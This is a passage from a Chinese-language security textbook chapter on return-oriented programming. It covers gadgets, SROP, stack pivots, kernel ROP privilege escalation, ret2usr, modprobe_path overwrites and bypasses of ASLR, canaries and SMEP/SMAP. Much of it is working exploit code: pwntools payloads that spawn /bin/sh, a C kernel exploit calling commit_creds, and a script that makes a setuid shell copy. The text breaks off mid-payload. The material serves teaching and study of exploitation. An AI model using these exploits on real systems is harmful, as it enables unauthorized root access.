

## 31.4 ROP技术

### 知识地图



---

### 31.4.1 ROP基础与原理

#### 为什么需要ROP

ROP（Return-Oriented Programming，面向返回的编程）是绕过DEP/NX（数据执行保护/不可执行栈）的核心技术。2007年，Shacham在论文《The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls》中首次系统化提出。

在传统的缓冲区溢出攻击中，攻击者向栈上注入shellcode并跳转执行。DEP/NX启用后，栈和堆被标记为不可执行，任何跳转到这些区域的执行都会触发段错误。ROP的核心洞察是：

> **不需要注入任何新代码。程序本身已经包含了大量可执行的代码片段（Gadget），攻击者只需要将这些片段"拼装"起来，通过控制返回地址链引导执行流。**

这就像乐高积木——你不需要自己制造积木，只需要把现有的积木按正确顺序拼接。

#### ROP vs 传统技术对比

| 特性 | Shellcode注入 | return-to-libc | ROP |
|------|--------------|----------------|-----|
| 需要注入代码 | 是 | 否 | 否 |
| 绕过DEP/NX | 否 | 是 | 是 |
| 可编程性 | 完全控制 | 受限（函数调用） | 几乎完全控制 |
| 可用指令 | 任意 | 受限于libc函数 | 受限于程序代码段 |
| 复杂度 | 低 | 中 | 高 |
| 适用场景 | NX关闭 | NX开启，无ASLR | NX+ASLR均开启 |

#### Gadget的定义与分类

一个Gadget是以`ret`（或`jmp`/`call`等控制转移指令）结尾的短指令序列。通过控制栈上的返回地址，可以将多个Gadget串联执行。

**常见Gadget类型：**

| 类型 | 指令序列示例 | 作用 |
|------|-------------|------|
| 寄存器加载 | `pop rdi; ret` | 从栈上加载值到寄存器 |
| 内存读写 | `mov [rdi], rax; ret` | 将寄存器值写入内存 |
| 算术运算 | `add rax, rcx; ret` | 寄存器间运算 |
| 栈操作 | `xchg rax, rsp; ret` | 栈指针切换（Stack Pivot） |
| 系统调用 | `syscall; ret` | 触发内核系统调用 |
| 条件跳转 | `pop rax; ret` + 短暂跳转 | 有条件地选择不同路径 |

**Gadget长度的重要性：** 理想的Gadget只包含一条有用的指令加上`ret`。如果两条指令之间存在不需要的副作用（如`pop rbx; pop r12; ret`），则需要在栈上填充对应的"垃圾值"来平衡栈帧。

#### 调用约定基础

ROP链构造必须遵循目标平台的调用约定。以x86-64 Linux为例（System V AMD64 ABI）：

```text
参数传递顺序：  rdi, rsi, rdx, rcx, r8, r9（前6个参数）
返回值：        rax
调用者保存：    rdi, rsi, rdx, rcx, r8, r9, r10, r11
被调用者保存：  rbx, rbp, r12-r15
栈对齐：        调用前rsp必须16字节对齐

系统调用约定：
  系统调用号 → rax
  参数 → rdi, rsi, rdx, r10, r8, r9
  触发 → syscall 指令
```

对于32位x86（cdecl），参数全部通过栈传递，更加直观但需要更大的栈空间。

---

### 31.4.2 ROP链构造实战

#### 栈布局设计原则

ROP链的核心是精心构造栈上的数据布局。每次执行`ret`指令时，CPU从栈顶弹出一个值作为下一条指令的地址。因此，栈上必须按顺序放置所有Gadget的地址，以及Gadget需要的参数数据。

```text
栈布局结构（x86-64）：

高地址
+------------------------+
| Gadget N addr          |  ← ret弹出，跳转执行
+------------------------+
| 参数/垃圾值 (按需)      |  ← Gadget N需要的数据
+------------------------+
| Gadget N-1 addr        |  ← ret弹出，跳转执行
+------------------------+
| 参数/垃圾值 (按需)      |  ← Gadget N-1需要的数据
+------------------------+
| ...                    |
+------------------------+
| Gadget 1 addr          |  ← 溢出覆盖的第一个返回地址
+------------------------+
| padding (填充到返回地址) |
+------------------------+
低地址（栈底）

执行流：
main() → ret → Gadget1 → ret → Gadget2 → ... → GadgetN → ret → 目标函数
```

#### 实战：从零构造用户态ROP链

假设目标程序存在栈溢出漏洞，我们想通过ROP执行`execve("/bin/sh", NULL, NULL)`。这需要：

1. 调用`execve`，参数通过rdi、rsi、rdx传递
2. rdi指向字符串"/bin/sh"，rsi和rdx为NULL

**步骤一：在内存中放置"/bin/sh"字符串**

如果程序中已有该字符串（如libc中），直接使用其地址。否则需要通过ROP先将字符串写入某个可写内存段（如`.bss`段）。

**步骤二：构造完整ROP链**

```python
from pwn import *

# 假设已知信息（实际中需要通过信息泄露获取）
elf = ELF('./vuln_program')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Gadget地址（通过ROPgadget或pwntools查找）
pop_rdi_ret = 0x40118a      # pop rdi ; ret
pop_rsi_ret = 0x401188      # pop rsi ; ret
pop_rdx_rbx_ret = 0x401184  # pop rdx ; pop rbx ; ret

# 目标函数
execve_addr = libc.symbols['execve']
bin_sh_addr = next(libc.search(b'/bin/sh'))

# 构造payload
payload = b'A' * 72             # 填充至返回地址（64字节缓冲区 + 8字节saved_rbp）
payload += p64(pop_rdi_ret)     # pop rdi ; ret
payload += p64(bin_sh_addr)     # rdi = "/bin/sh"
payload += p64(pop_rsi_ret)     # pop rsi ; ret
payload += p64(0)               # rsi = NULL
payload += p64(pop_rdx_rbx_ret) # pop rdx ; pop rbx ; ret
payload += p64(0)               # rdx = NULL
payload += p64(0)               # rbx = 0（垃圾值）
payload += p64(execve_addr)     # execve("/bin/sh", NULL, NULL)

# 发送payload
p = process('./vuln_program')
p.sendline(payload)
p.interactive()
```

#### 常见ROP操作模式

在实际exploit中，经常需要组合以下基础操作：

**模式一：内存写入（将数据写入.bss段）**

当需要将字符串或数据放置在内存中时，利用`mov [reg], reg`类Gadget：

```text
栈布局：
pop_rdi_ret        → rdi = .bss_addr（目标地址）
pop_rax_ret        → rax = 要写入的值
mov_[rdi]_rax_ret  → 将rax写入[rdi]
```

**模式二：多次内存写入（构造复杂数据结构）**

使用`stosb`/`stosq`等字符串操作指令，或循环写入：

```text
栈布局（写入8字节）：
pop_rdi_ret           → rdi = .bss_addr
pop_rax_ret           → rax = 低4字节数据
mov_[rdi]_eax_ret     → 写入低4字节
pop_rax_ret           → rax = 高4字节数据
mov_[rdi+4]_eax_ret   → 写入高4字节
```

**模式三：条件执行（利用标志位选择路径）**

利用`cmp`+条件跳转，或直接通过`ret`地址的计算控制分支：

```text
栈布局：
pop_rax_ret         → rax = 比较值
cmp_rax_edi_ret     → 比较（根据结果设置标志位）
je_0x401234         → 如果相等跳转到Gadget A
                     → 否则顺序执行Gadget B
Gadget_B_addr       → 不相等时执行
Gadget_A_addr       → 相等时跳转到此处
```

---

### 31.4.3 SROP：Sigreturn-Oriented Programming

SROP（Sigreturn-Oriented Programming）由Roca和Bulba于2014年提出，是一种极其强大的ROP变体。其核心思想是：

> **利用`sigreturn`系统调用可以完全恢复（伪造）CPU的所有寄存器状态，从而一步到位地控制整个执行环境。**

#### 原理详解

Linux内核在处理信号时，会将所有寄存器状态保存到用户态栈上（`sigframe`结构），然后调用`sigreturn`系统调用从栈上恢复这些寄存器。攻击者可以伪造这个`sigframe`，然后触发`sigreturn`：

```text
正常信号处理流程：
  信号到达 → 内核保存寄存器到栈（sigframe）→ 用户态信号处理函数
  → sigreturn系统调用 → 内核从栈恢复寄存器 → 继续执行

攻击流程：
  溢出覆盖栈 → 放置伪造的sigframe → 触发sigreturn（syscall #15）
  → 内核从攻击者控制的栈恢复所有寄存器 → 执行任意操作
```

#### 伪造sigframe结构

```python
from pwn import *

def make_sigframe(arch='amd64'):
    """构造伪造的sigframe"""
    frame = SigreturnFrame(arch=arch)

    # 设置所有寄存器为攻击者想要的值
    frame.rax = 59               # execve的系统调用号
    frame.rdi = bss_addr + 0x100  # "/bin/sh"字符串地址
    frame.rsi = 0                # argv = NULL
    frame.rdx = 0                # envp = NULL
    frame.rip = syscall_addr     # 执行syscall的Gadget地址
    frame.rsp = bss_addr         # 栈指针
    frame.cs = 0x33              # 用户态代码段选择子
    frame.ss = 0x2b              # 用户态栈段选择子
    frame.rflags = 0x246         # 标志寄存器

    return bytes(frame)

# SROP攻击流程
payload = b'A' * offset              # 溢出填充
payload += pop_rax_ret               # pop rax ; ret
payload += p64(15)                   # rax = 15（__NR_rt_sigreturn）
payload += syscall_ret               # syscall ; ret → 触发sigreturn
payload += make_sigframe()           # 伪造的sigframe
```

#### SROP vs 传统ROP对比

| 特性 | 传统ROP | SROP |
|------|---------|------|
| 需要的Gadget数量 | 大量（数十到数百个） | 极少（仅需syscall; ret） |
| 寄存器控制 | 逐步设置每个寄存器 | 一步恢复所有寄存器 |
| 栈空间需求 | 较大 | 较小（一个sigframe约248字节） |
| 复杂度 | 高（需要精确匹配Gadget） | 低（sigframe模板固定） |
| 适用条件 | 只要有可用Gadget | 需要能触发sigreturn（syscall #15） |

SROP在Gadget极度匮乏的场景下特别有价值，例如精简内核（minimal kernel）或高度优化的固件。

---

### 31.4.4 Stack Pivot（栈迁移）

Stack Pivot是ROP技术中的关键高级技巧，用于在栈指针不受直接控制时，将执行流引导到攻击者完全控制的内存区域。

#### 为什么需要Stack Pivot

在某些漏洞中，攻击者只能控制栈的一部分（如只控制栈上的一小段缓冲区），或者栈空间太小无法容纳完整的ROP链。此时需要将rsp切换到攻击者完全控制的区域（如堆上通过堆喷射放置的数据）。

#### 常见Stack Pivot Gadget

```text
# x86-64 常见的栈迁移Gadget：

# 1. xchg rax, rsp ; ret  （最常用）
#    将rsp设置为rax的值，需要事先通过pop_rax将目标地址加载到rax

# 2. add rsp, 0xXX ; ret
#    将rsp增加一个固定偏移，跳到栈上另一区域

# 3. leave ; ret
#    leave = mov rsp, rbp ; pop rbp
#    如果能控制rbp，就能将rsp迁移到任意位置
```

**Stack Pivot利用示例：**

```python
# 场景：只能溢出8字节，但堆上有1024字节可控数据

# 第一次溢出：将rbp设置为堆上的地址
payload = b'A' * 72              # 填充到saved_rbp
payload += p64(heap_addr - 8)    # rbp = 堆地址-8（leave时mov rsp, rbp然后pop rbp）
payload += p64(leave_ret)        # leave ; ret → rsp跳到堆上

# 堆上放置完整的ROP链
# （通过堆喷射等技术预先放置）
```

#### 利用__libc_csu_init的万能Gadget

在很多ELF程序中，`__libc_csu_init`函数包含两个极其有用的Gadget片段，被称为"universal gadgets"：

```text
// 第一个片段（用于控制rbx, rbp, r12, r13, r14, r15）：
0x4005c0:  pop rbx
0x4005c1:  pop rbp
0x4005c2:  pop r12
0x4005c4:  pop r13
0x4005c6:  pop r14
0x4005c8:  pop r15
0x4005ca:  ret

// 第二个片段（用于间接调用）：
0x4005b0:  mov rdx, r13
0x4005b3:  mov rsi, r14
0x4005b6:  mov edi, r15d
0x4005b9:  call qword [r12 + rbx*8]  // 间接调用！
0x4005bd:  add rbx, 1
0x4005c1:  cmp rbp, rbx
0x4005c4:  jne 0x4005b0
```

通过控制`r12`指向函数指针数组，`rbx`设为0，就能实现`call [r12]`——间接调用任意函数。再通过控制r13、r14、r15传递rdx、rsi、edi参数，获得三参数函数调用能力。这在Gadget稀缺时极为有用。

---

### 31.4.5 内核ROP技术

内核ROP与用户态ROP的核心区别在于三点：

1. **返回用户态需要特殊指令序列**：`swapgs`恢复内核GS段，`iretq`恢复用户态CS/RIP/RFLAGS/RSP/SS
2. **内存保护更严格**：SMEP（禁止内核执行用户态代码）、SMAP（禁止内核访问用户态数据）需要专门绕过
3. **Gadget来源不同**：内核代码段（vmlinux）、内核模块、以及内核自带的`copy_from_user`等函数

#### 经典内核ROP提权链

提权的本质是修改当前进程的`cred`结构体，将uid/gid设为0（root）。最经典的方法是调用`commit_creds(prepare_kernel_cred(0))`：

```c
// 用户态exploit框架
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/syscall.h>

// 保存用户态寄存器状态（用于返回用户态）
unsigned long user_cs, user_ss, user_rsp, user_rflags;

static void save_state() {
    __asm__ __volatile__(
        "mov %%cs, %0\n"
        "mov %%ss, %1\n"
        "mov %%rsp, %2\n"
        "pushfq\n"
        "pop %3\n"
        : "=r"(user_cs), "=r"(user_ss), "=r"(user_rsp), "=r"(user_rflags)
        :
        : "memory"
    );
}

// 提权后执行的函数
static void get_root_shell() {
    printf("[*] Got root!\n");
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
}

/*
 * ROP链构造（典型栈溢出场景）
 *
 * 偏移量：buf[64] + saved_rbp[8] = 72 bytes
 * 目标：commit_creds(prepare_kernel_cred(0))
 */
void build_rop_chain(char *buf) {
    unsigned long *chain = (unsigned long *)(buf + 72);
    int i = 0;

    // ---- 阶段1：提权 ----
    // prepare_kernel_cred(0) → 结果在rax中
    chain[i++] = pop_rdi_ret;              // pop rdi ; ret
    chain[i++] = 0;                        // rdi = 0 (NULL → init_cred)
    chain[i++] = prepare_kernel_cred;      // 调用 prepare_kernel_cred(0)

    // 将rax（返回值）移到rdi（作为commit_creds的参数）
    chain[i++] = mov_rdi_rax_pop_rbx_ret;  // mov rdi, rax ; pop rbx ; ret
    chain[i++] = 0;                        // rbx = 垃圾值

    // commit_creds(prepare_kernel_cred(0))
    chain[i++] = commit_creds;             // 调用 commit_creds

    // ---- 阶段2：返回用户态 ----
    chain[i++] = swapgs_pop_rbp_ret;       // swapgs ; pop rbp ; ret
    chain[i++] = 0;                        // rbp = 垃圾值
    chain[i++] = iretq;                    // 返回用户态

    // iretq需要的栈布局：rip, cs, rflags, rsp, ss
    chain[i++] = (unsigned long)get_root_shell;  // rip → 提权后的shell
    chain[i++] = user_cs;                        // cs
    chain[i++] = user_rflags;                    // rflags
    chain[i++] = user_rsp;                       // rsp
    chain[i++] = user_ss;                        // ss
}

int main() {
    save_state();

    char payload[512];
    memset(payload, 'A', 72);               // 填充
    build_rop_chain(payload);

    // 触发漏洞（示例：通过设备文件溢出）
    int fd = open("/dev/vuln_device", O_RDWR);
    write(fd, payload, sizeof(payload));
    close(fd);

    return 0;
}
```

#### 查找内核Gadget

```bash
# 方法一：使用ROPgadget（推荐）
# 导出完整Gadget列表
ROPgadget --vmlinux vmlinux > all_gadgets.txt

# 搜索特定Gadget
ROPgadget --vmlinux vmlinux --search "pop rdi"
ROPgadget --vmlinux vmlinux --search "pop rax"
ROPgadget --vmlinux vmlinux --search "mov cr4"      # 用于SMEP绕过
ROPgadget --vmlinux vmlinux --search "swapgs"
ROPgadget --vmlinux vmlinux --search "iretq"

# 方法二：使用ropper
ropper -f vmlinux --search "pop rdi ; ret"
ropper -f vmlinux --search "mov rdi, rax"
ropper -f vmlinux --search "xchg eax, esp"          # 用于Stack Pivot

# 方法三：在运行系统上查找符号地址（需要root或信息泄露）
cat /proc/kallsyms | grep prepare_kernel_cred
cat /proc/kallsyms | grep commit_creds
cat /proc/kallsyms | grep pop_rdi

# 方法四：pwntools自动查找
from pwn import *
vmlinux = ELF('./vmlinux')
pop_rdi = vmlinux.search(asm('pop rdi; ret')).__next__()
```

#### 关键内核Gadget清单

| 需求 | Gadget模式 | 用途 |
|------|-----------|------|
| 参数传递 | `pop rdi; ret` | 第一个参数 |
| 参数传递 | `pop rsi; ret` | 第二个参数 |
| 参数传递 | `pop rdx; ret` | 第三个参数 |
| 返回值传递 | `mov rdi, rax; ret` | 将前一个函数的返回值作为下一个函数的参数 |
| 返回用户态 | `swapgs; pop rbp; ret` + `iretq` | 恢复用户态GS段并返回 |
| 栈迁移 | `xchg rax, rsp; ret` | 将栈切换到攻击者控制区域 |
| SMEP绕过 | `mov cr4, rdi; ...; ret` | 修改CR4寄存器关闭SMEP |
| 内存读取 | `mov rax, [rdi]; ret` | 从内核地址读取数据到rax |
| 内存写入 | `mov [rdi], rax; ret` | 将rax写入内核地址 |

---

### 31.4.6 ret2usr攻击

ret2usr是一种在SMEP/SMAP未启用时的提权技术。其核心思想是：

> **不在内核中寻找Gadget，而是直接在用户态构造伪造的内核数据结构和代码，然后引导内核跳转到用户态执行。**

#### 利用cred结构体提权

Linux内核中每个进程都有一个`cred`结构体，记录uid、gid、capabilities等权限信息。如果能让内核将当前进程的cred指向攻击者在用户态伪造的全零cred结构，进程就变成root：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// 伪造的cred结构（所有权限设为root）
struct cred {
    unsigned long usage;
    unsigned int uid, gid;
    unsigned int suid, sgid;
    unsigned int euid, egid;
    unsigned int fsuid, fsgid;
    unsigned int securebits;
    unsigned long cap_inheritable;
    unsigned long cap_permitted;
    unsigned long cap_effective;
    unsigned long cap_bset;
    unsigned long cap_ambient;
};

// 在用户态放置伪造的cred
struct cred fake_cred = {
    .usage = 1,                    // 引用计数
    .uid = 0, .gid = 0,           // root
    .suid = 0, .sgid = 0,
    .euid = 0, .egid = 0,
    .fsuid = 0, .fsgid = 0,
    .securebits = 0,
    .cap_inheritable = 0,
    .cap_permitted = ~0UL,         // 所有capabilities
    .cap_effective = ~0UL,
    .cap_bset = ~0UL,
    .cap_ambient = 0,
};

// get_root_shell：提权后调用
static void get_root_shell() {
    printf("[*] UID: %d\n", getuid());
    if (getuid() == 0) {
        printf("[+] Got root!\n");
        system("/bin/sh");
    } else {
        printf("[-] Privilege escalation failed\n");
    }
}
```

#### ret2usr ROP链构造

```c
// 利用内核漏洞将cred指针指向fake_cred
// 需要的信息：fake_cred的用户态地址
unsigned long fake_cred_addr = (unsigned long)&fake_cred;

/*
 * 利用流程（以写任意内核地址为例）：
 * 1. 将当前进程 task_struct.cred 指向 fake_cred
 *    - 通过 write_cred 或直接修改 cred 指针
 * 2. 跳转到用户态的 get_root_shell 函数
 *    - 注意：如果 SMEP 启用，此方法无效
 *    - 如果 SMAP 启用，无法通过内核代码读取 fake_cred
 */
```

#### ret2usr的局限性

| 防护机制 | ret2usr是否有效 | 说明 |
|---------|----------------|------|
| DEP/NX | 有效 | ROP本身就不需要执行栈上代码 |
| SMEP | 无效 | 内核无法跳转到用户态代码段执行 |
| SMAP | 无效 | 内核无法从用户态地址读取数据（如fake_cred） |
| KPTI (PTI) | 部分无效 | 系统调用入口的内核页表不再映射用户态地址 |
| KASLR | 间接影响 | 即使绕过SMEP/SMAP，仍需知道内核基址 |

---

### 31.4.7 modprobe_path覆写技术

Linux内核在遇到无法识别的文件格式时，会调用`modprobe_path`指向的程序（默认为`/sbin/modprobe`）来尝试加载对应的内核模块。由于该变量位于内核数据段且权限检查不严格，覆写它可以在下一次触发时以root权限执行攻击者控制的脚本。

#### 利用流程

```c
/*
 * modprobe_path 利用流程：
 *
 * 前提条件：需要一个内核任意写原语（如UAF、OOB写等）
 *
 * 步骤：
 * 1. 定位 modprobe_path 的内核地址
 * 2. 将其覆写为攻击者控制的脚本路径（如 "/tmp/x"）
 * 3. 创建恶意脚本（以root身份执行命令）
 * 4. 创建格式错误的文件（触发modprobe_path调用）
 * 5. 执行该文件 → 内核调用攻击者脚本 → root权限操作
 */

// 步骤1：定位 modprobe_path
unsigned long get_modprobe_path_addr() {
    // 方法A：通过 /proc/kallsyms（需要足够权限或信息泄露）
    FILE *fp = popen("cat /proc/kallsyms | grep modprobe_path", "r");
    unsigned long addr;
    fscanf(fp, "%lx", &addr);
    pclose(fp);
    return addr;

    // 方法B：计算偏移（需要已知内核版本的符号表）
    // return kernel_base + MODPROBE_PATH_OFFSET;
}

// 步骤2+3：创建恶意脚本
void create_malicious_script() {
    FILE *fp = fopen("/tmp/x", "w");
    if (fp) {
        // 以root权限执行的命令
        fprintf(fp, "#!/bin/sh\n");
        fprintf(fp, "cp /bin/sh /tmp/pwned\n");
        fprintf(fp, "chmod +s /tmp/pwned\n");
        // 也可以直接提权
        // fprintf(fp, "chown root:root /tmp/pwned\n");
        // fprintf(fp, "chmod 4755 /tmp/pwned\n");
        fclose(fp);
        chmod("/tmp/x", 0777);
    }
}

// 步骤4：创建格式错误的文件
void trigger_modprobe() {
    FILE *fp = fopen("/tmp/dummy", "wb");
    if (fp) {
        // 无法识别的文件格式（不是ELF、不是脚本等）
        char bad_magic[] = {0xff, 0xff, 0xff, 0xff};
        fwrite(bad_magic, 1, sizeof(bad_magic), fp);
        fclose(fp);
        chmod("/tmp/dummy", 0777);
    }

    // 执行格式错误的文件，触发modprobe_path
    system("/tmp/dummy");
}
```

#### modprobe_path的优势

相比直接ROP提权，modprobe_path覆写有独特优势：

1. **延迟执行**：覆写操作和触发操作可以分离，不需要在溢出时立即执行提权代码
2. **多次触发**：只要modprobe_path保持被覆写状态，每次触发都能执行恶意脚本
3. **无需复杂ROP链**：只需要一个内核地址写原语，不需要串联大量Gadget
4. **可持久化**：如果内核重启不频繁，一次覆写可以维持很长时间

#### 内核5.13+的变化

从Linux 5.13开始，内核引入了对`modprobe_path`调用的权限检查：

```c
// 内核5.13+的调用方式变为：
call_modprobe(modprobe_path, flags);

// call_modprobe会检查：
// 1. 脚本文件必须是root所有
// 2. 脚本文件必须是普通文件
// 3. 检查文件的权限位
```

这意味着即使覆写了modprobe_path，攻击者放置的脚本也需要满足特定条件才能被内核执行。在5.13+内核上利用此技术需要额外的步骤来满足这些检查。

---

### 31.4.8 Gadget搜索自动化工具

#### ROPgadget 详解

```bash
# 基本用法
ROPgadget --binary ./target                    # 列出所有Gadget
ROPgadget --binary ./target --ropchain          # 尝试自动构造ROP链

# 指定Gadget搜索
ROPgadget --binary ./target --search "pop rdi"
ROPgadget --binary ./target --search "pop rdi ; ret"
ROPgadget --binary ./target --search "mov rax"  # 模糊搜索

# 指定大小和类型
ROPgadget --binary ./target --only "pop|ret"    # 只包含pop和ret类
ROPgadget --binary ./target --depth 5           # 最大5条指令的Gadget
ROPgadget --binary ./target --offset 0x400000   # 指定基地址偏移

# 导出ROPgadget搜索结果供ROPgadget自动构造链使用
ROPgadget --binary ./target --ropchain --ropchain-output ropchain.txt

# 内核专用
ROPgadget --vmlinux vmlinux --search "swapgs"
ROPgadget --vmlinux vmlinux --rawArch --rawMode  # 不解析符号
```

#### pwntools中的ROP封装

```python
from pwn import *

elf = ELF('./target')

# 自动构建ROP链
rop = ROP(elf)

# pwntools可以自动查找Gadget并设置参数
rop.call('execve', [next(elf.search(b'/bin/sh')), 0, 0])
rop.call('system', [next(elf.search(b'/bin/sh'))])

# 或者手动设置
rop.raw(pop_rdi_addr)
rop.raw(bin_sh_addr)
rop.raw(execve_addr)

# 生成最终payload
payload = b'A' * offset + rop.chain()

# ROPgadget自动生成的ROP链（需要ROPgadget安装）
rop_gadget = ROPgadget(elf)
rop_gadget.search('pop rdi')
rop_gadget.dump()  # 打印构造的链
```

#### ropper 的使用

```bash
# 基本搜索
ropper -f ./target --search "pop rdi"
ropper -f ./target --search "mov rax, rdi"
ropper -f ./target --search "pop rax ; ret"

# 高级搜索（正则表达式）
ropper -f ./target --search "/pop rdi/"
ropper -f ./target --search "/pop r.. ; ret/"

# 自动构造ROP链
ropper -f ./target --chain

# 列出所有可用Gadget
ropper -f ./target --info

# 指定架构
ropper -f ./target --search "pop rdi" --arch x86_64
ropper -f ./target --search "pop r0" --arch arm
```

#### Gadget搜索策略

| 策略 | 说明 | 适用场景 |
|------|------|---------|
| 全量导出 | `ROPgadget --binary > all.txt` | 初步分析，了解可用Gadget |
| 精确搜索 | `--search "pop rdi ; ret"` | 已知需要的特定Gadget |
| 模式搜索 | `--search "pop r.."` | 寻找变体（如pop rsi/pop rdx） |
| 大小限制 | `--depth 3` | 限制Gadget复杂度 |
| 类型过滤 | `--only "pop\|ret"` | 只要特定类型Gadget |
| 多次搜索 | 组合不同搜索条件 | 构建完整链时逐个Gadget查找 |

---

### 31.4.9 ROP防御机制与绕过

#### ASLR（地址空间布局随机化）

ASLR随机化进程的内存布局（栈、堆、库、代码段基址），使攻击者无法提前知道Gadget的地址。

**绕过方法：**

1. **信息泄露（Info Leak）**：利用格式化字符串漏洞、堆溢出UAF等泄露内存地址，计算出基址偏移
2. **暴力破解**：对于32位系统，ASLR只有8-11位熵（256-2048种可能），可以暴力尝试
3. **部分覆盖**：只覆盖返回地址的低1-2字节，高字节保持不变（适用于小范围随机化）
4. **ROP链内部泄露**：在ROP链中调用`write`/`puts`等函数先泄露地址，再计算后续Gadget地址
5. **ret2dl-resolve**：利用动态链接器的延迟绑定机制，在栈上伪造动态符号解析数据

#### Stack Canary（栈保护）

Canary是放置在返回地址之前的随机值，函数返回时检查是否被修改。如果被覆盖则终止程序。

**绕过方法：**

1. **Canary泄露**：通过格式化字符串漏洞读取栈上的Canary值
2. **逐字节覆盖**：利用缓冲区溢出逐字节猜测Canary（每字节256种可能）
3. **绕过检查点**：找到不检查Canary的代码路径（如`__attribute__((no_split_stack))`）
4. **fork场景**：如果程序fork子进程，Canary不变，可以暴力爆破
5. **使用其他漏洞**：UAF、堆溢出等可能不触发Canary检查

#### KASLR（内核地址空间随机化）

内核的代码段和数据段基址随机化。

**绕过方法：**

1. **/proc/kallsyms泄露**（需要root或特定条件）
2. **内核信息泄露漏洞**
3. **侧信道攻击**：如利用BRBS（Branch Record Buffer Stuffing）等微架构攻击
4. **dmesg日志中的地址**

#### SMEP/SMAP（内核页表保护）

- **SMEP**（Supervisor Mode Execution Prevention）：内核不可执行用户态代码
- **SMAP**（Supervisor Mode Access Prevention）：内核不可访问用户态数据

**绕过方法：**

1. **修改CR4寄存器**：通过Gadget清除CR4中的SMEP/SMAP位（需要找到`mov cr4, rdi`等Gadget）
2. **纯内核ROP**：完全在内核空间构造ROP链，不依赖任何用户态代码或数据
3. **利用内核已有函数**：使用`copy_from_user`、`copy_to_user`等内核自身提供的函数
4. **KPTI/PTI绕过**：使用`swapgs_restore_regs_and_return_to_usermode`等内核提供的返回路径

---

### 31.4.10 常见误区与最佳实践

#### 误区一：只找Gadget不验证

很多初学者通过ROPgadget找到Gadget后直接使用，忽略了验证。务必确认：

```text
# 检查Gadget的上下文是否干净
# 例如 "pop rdi ; ret" 可能实际是 "pop rdi ; pop r12 ; ret"
# 后者需要在栈上多放8字节垃圾值

ROPgadget --binary ./target --search "pop rdi" --raw
# 查看原始字节，确认前后指令
```

#### 误区二：忽略栈对齐

x86-64的System V ABI要求调用函数前栈16字节对齐。如果rsp未对齐就调用SSE指令（如`movaps`），会触发段错误：

```python
# 修复方法1：在ROP链中插入对齐Gadget
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_addr)
payload += p64(system_addr)
# 如果崩溃在system中的movaps，插入一个ret进行对齐：
payload += p64(ret_gadget)  # 只是执行ret，rsp += 8，相当于对齐
payload += p64(system_addr)
```

#### 误区三：不考虑调用约定差异

```text
32位 vs 64位的关键区别：
┌─────────────────┬──────────────────┬──────────────────┐
│                  │ 32位 (cdecl)     │ 64位 (SysV ABI)  │
├─────────────────┼──────────────────┼──────────────────┤
│ 参数传递         │ 全部通过栈       │ 寄存器(rdi,rsi..) │
│ 返回值           │ eax/eax:edx      │ rax               │
│ 栈对齐要求       │ 4字节            │ 16字节            │
│ Gadget大小       │ 较小             │ 较大(REX前缀)     │
│ 参数限制         │ 无限制           │ 6个寄存器参数     │
└─────────────────┴──────────────────┴──────────────────┘
```

#### 误区四：ROP链构造后不调试

ROP链的构造是一个迭代过程，很少能一次成功。推荐的调试方法：

```bash
# 1. 使用GDB逐步跟踪ROP执行
gdb ./target
(gdb) set follow-fork-mode child  # 如果有fork
(gdb) break *0x40118a             # 在ROP链第一个Gadget处设断点
(gdb) run < payload
(gdb) x/20gx $rsp                 # 检查栈上的ROP链
(gdb) si                          # 单步执行（跟踪每个ret）

# 2. 使用pwntools的debug功能
p = gdb.debug('./target', 'break *0x40118a')

# 3. 使用ROPgadget自动生成并验证
ROPgadget --binary ./target --ropchain --ropchain-output rop.txt
```

#### 最佳实践清单

| 步骤 | 操作 | 工具 |
|------|------|------|
| 1 | 确认漏洞类型和控制范围 | GDB, IDA Pro |
| 2 | 计算精确偏移量 | cyclic, pattern_create |
| 3 | 搜索可用Gadget | ROPgadget, ropper, pwntools |
| 4 | 设计ROP链结构 | 手动/ROPgadget --ropchain |
| 5 | 处理ASLR（如需信息泄露） | gdb, pwntools |
| 6 | 构造payload | pwntools, Python |
| 7 | 调试和验证 | GDB, strace |
| 8 | 处理边界情况（对齐、副作用） | GDB |

---

### 31.4.11 实战案例：完整exploit演示

以下是一个完整的用户态ROP exploit模板，综合运用本章所有技术：

```python
#!/usr/bin/env python3
"""
ROP Exploit Template
综合演示：信息泄露 → ASLR绕过 → ROP链构造 → 代码执行
"""
from pwn import *

# ========== 配置 ==========
context.binary = elf = ELF('./target')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.log_level = 'debug'

# ========== 工具函数 ==========
def exploit():
    # ========== 第一步：信息泄露 ==========
    # 假设程序有两个漏洞：
    # 1. 格式化字符串漏洞（用于泄露libc地址）
    # 2. 栈溢出漏洞（用于ROP）

    p = process('./target')

    # 泄露libc基址（利用格式化字符串）
    # %p可以泄露栈上的值，通过偏移找到__libc_start_main的返回地址
    payload_leak = b'%15$p'   # 偏移量需要通过测试确定
    p.sendline(payload_leak)
    p.recvuntil(b'> ')
    libc_start_ret = int(p.recvline().strip(), 16)
    libc.address = libc_start_ret - libc.symbols['__libc_start_main'] - 243
    log.success(f'libc base: {hex(libc.address)}')

    # 计算所需地址
    system_addr = libc.symbols['system']
    bin_sh_addr = next(libc.search(b'/bin/sh'))
    pop_rdi_ret = libc.address  # 需要搜索libc中的Gadget
    # pop_rdi_ret = libc.search(asm('pop rdi; ret')).__next__()
    pop_rdi_ret = next(libc.search(asm('pop rdi ; ret')))
    ret_gadget = next(libc.search(asm('ret')))  # 用于栈对齐

    # ========== 第二步：构造ROP链 ==========
    offset = 72  # 填充到返回地址的偏移量

    payload = b'A' * offset

    # ROP链：system("/bin/sh")
    payload += p64(ret_gadget)       # 栈对齐（解决movaps问题）
    payload += p64(pop_rdi_ret)      # pop rdi ; ret
    payload += p64(bin_sh_addr)      # rdi = "/bin/sh"
